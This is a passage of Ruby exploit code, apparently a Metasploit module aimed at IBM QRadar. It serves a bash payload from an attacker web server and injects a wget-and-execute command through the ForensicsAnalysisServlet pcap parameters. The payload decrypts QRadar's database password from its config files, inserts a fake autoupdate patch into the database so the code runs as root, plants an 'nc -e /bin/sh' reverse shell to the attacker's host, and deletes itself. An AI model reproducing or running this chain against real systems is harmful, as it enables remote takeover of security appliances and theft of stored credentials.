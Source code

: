 ```rb
      srv_host = Rex::Socket.source_address(rhost)
    else
      srv_host = datastore['SRVHOST']
    end
    http_service = (datastore['SSL'] ? 'https://' : 'http://') + srv_host + ':' + datastore['SRVPORT'].to_s
    service_uri = http_service + '/' + @payload_name
    print_status("#{peer} - Starting up our web service on #{http_service} ...")
    start_service({'Uri' => {
      'Proc' => Proc.new { |cli, req|
        on_request_uri(cli, req)
      },
      'Path' => "/#{@payload_name}"
    }})
    @payload = %{#!/bin/bash
# our payload that's going to be downloaded from our web server
cat <<EOF > /store/configservices/staging/updates/#{root_payload}
#!/bin/bash
/usr/bin/nc -e /bin/sh #{datastore['LHOST']} #{datastore['LPORT']} &
EOF
### below is adapted from /opt/qradar/support/changePasswd.sh
[ -z $NVA_CONF ] && NVA_CONF="/opt/qradar/conf/nva.conf"
NVACONF=`grep "^NVACONF=" $NVA_CONF 2> /dev/null | cut -d= -f2`
FRAMEWORKS_PROPERTIES_FILE="frameworks.properties"
FORENSICS_USER_FILE="config_user.xml"
FORENSICS_USER_FILE_CONFIG="$NVACONF/$FORENSICS_USER_FILE"
# get the encrypted db password from the config
PASSWORDENCRYPTED=`cat $FORENSICS_USER_FILE_CONFIG | grep WEBUSER_DB_PASSWORD | grep -o -P '(?<=>)([\\w\\=]*)(?=<)'`
QVERSION=$(/opt/qradar/bin/myver | awk -F. '{print $1$2$3}')
AU_CRYPT=/opt/qradar/lib/Q1/auCrypto.pm
P_ENC=$(grep I_P_ENC ${AU_CRYPT} | cut -d= -f2-)
P_DEC=$(grep I_P_DEC ${AU_CRYPT} | cut -d= -f2-)
#if 7.2.8 or greater, use new method for hashing and salting passwords
if [ $QVERSION -gt 727 ]
then
    PASSWORD=$(perl <(echo ${P_DEC} | base64 -d) <(echo ${PASSWORDENCRYPTED}))
      [ $? != 0 ] && echo "ERROR: Unable to decrypt $PASSWORDENCRYPTED" && exit 255
else
    AESKEY=`grep 'aes.key=' $NVACONF/$FRAMEWORKS_PROPERTIES_FILE | cut -c9-`
    PASSWORD=`/opt/qradar/bin/runjava.sh -Daes.key=$AESKEY com.q1labs.frameworks.crypto.AESUtil decrypt $PASSWORDENCRYPTED`
    [ $? != 0 ] && echo "ERROR: Unable to decrypt $PASSWORDENCRYPTED" && exit 255
fi
PGPASSWORD=$PASSWORD /usr/bin/psql -h localhost -U qradar qradar -c \
"insert into autoupdate_patch values ('#{root_payload}',#{rand(1000)+100},'minor',false,#{rand(9999)+100},0,'',1,false,'','','',false)"
# kill ourselves!
(sleep 2 && rm -- "$0") &
}
    # let's do step 2 then, ask QRadar to download and execute our payload
    print_status("#{peer} - Asking QRadar to download and execute #{service_uri}")
    exec_cmd = "$(mkdir -p /store/configservices/staging/updates && wget --no-check-certificate -O " +
      "/store/configservices/staging/updates/#{@payload_name} #{service_uri} && " +
      "/bin/bash /store/configservices/staging/updates/#{@payload_name})"
    payload_step2 = "pcap[0][pcap]" +
      "=/#{rand_text_alpha_lower(rand(6) + 2) + '/' + rand_text_alpha_lower(rand(6) + 2)}" +
      "&pcap[1][pcap]=#{Rex::Text::uri_encode(exec_cmd, 'hex-all')}"
    uri_step2 = "/ForensicsAnalysisServlet/?forensicsManagedHostIps" +
      "=127.0.0.1/forensics/file.php%3f%26&action=get&slavefile=true"
    res = send_request_cgi({
        'uri'       => uri_step2 + '&' + payload_step2,
```